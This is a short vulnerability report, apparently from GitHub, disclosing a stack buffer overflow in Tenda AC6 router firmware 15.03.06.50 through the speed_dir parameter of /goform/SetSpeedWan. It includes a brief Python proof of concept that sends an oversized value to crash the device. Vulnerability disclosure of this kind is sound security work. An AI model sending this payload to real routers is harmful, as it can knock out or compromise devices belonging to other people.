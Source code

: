 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/SetSpeedWan`. When `speed_dir` is specified with excessive data, the buffer overflow occurs during string concatenation operations.

![alt text](image-2.png)
## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'speed_dir': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xfa * b'A'
send_payload("http://10.10.10.1/goform/SetSpeedWan", payload)
```
